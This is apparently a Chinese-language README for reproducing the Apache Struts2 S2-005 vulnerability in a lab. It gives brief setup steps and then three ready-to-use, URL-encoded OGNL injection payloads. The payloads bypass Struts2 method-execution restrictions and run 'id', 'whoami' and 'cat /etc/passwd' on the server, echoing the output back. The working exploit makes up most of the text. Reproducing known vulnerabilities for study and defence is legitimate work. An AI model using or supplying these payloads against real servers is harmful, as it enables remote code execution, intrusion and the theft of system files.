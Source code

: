 ### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,因为这个地址中的源文件和S2-003的是一样的,所以如果想要只复现S2-005漏洞的话,需要把Struts2-Vuln-Demo/S2-005目录中的lib目录替换为本目录下的lib目录才行,共需要替换2处,分别是S2-005/web/WEB-INF/lib和S2-005/out/artifacts/s2_005_war_exploded/WEB-INF/lib,Tomcat必须是6.0.x版本才行,[下载地址](http://archive.apache.org/dist/tomcat/tomcat-6/),我下载的是6.0.10版本的tomcat,然后配置好Tomcat 6.0.x版本的就可以运行了

### Payload

#### 低版本Tomcat执行命令

```java
('%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('%5Cu0023mycmd%5Cu003d%5C'id%5C'')(bla)(bla)&('%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime().exec(%5Cu0023mycmd)')(bla)(bla)&(A)(('%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream(%5Cu0023myret.getInputStream())')(bla))&(B)(('%5Cu0023myres%5Cu003dnew%5C40byte%5B51020%5D')(bla))&(C)(('%5Cu0023mydat.readFully(%5Cu0023myres)')(bla))&(D)(('%5Cu0023mystr%5Cu003dnew%5C40java.lang.String(%5Cu0023myres)')(bla))&('%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('%5Cu0023myout.getWriter().println(%5Cu0023mystr)')(bla))
```

#### 高版本Tomcat执行命令

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27whoami%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

#### 高版本Tomcat读取文件

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27cat%20/etc/passwd%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```
